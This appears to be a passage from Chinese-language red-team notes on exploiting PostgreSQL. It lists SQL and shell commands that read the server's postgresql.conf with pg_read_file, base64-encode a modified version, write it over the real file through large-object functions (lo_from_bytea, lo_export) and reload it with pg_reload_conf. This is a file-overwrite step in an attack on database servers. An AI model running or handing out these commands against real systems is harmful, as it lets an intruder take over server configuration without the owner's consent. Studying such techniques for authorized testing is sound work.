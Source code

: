 查看内容
```bash
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

将配置文件中的 log_directory 配置修改
```
log_destination = 'csvlog'
log_directory = '/tmp/f0x'
log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'
log_rotation_size = 100MB
log_rotation_age = 1d
log_min_messages = INFO
logging_collector = on
```

转为 base64 格式
```bash
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base64.txt
```

```sql
-- 将修改后的配置文件加载到largeobject中
select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));

-- 通过lo_export覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/40.png)

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/41.png)
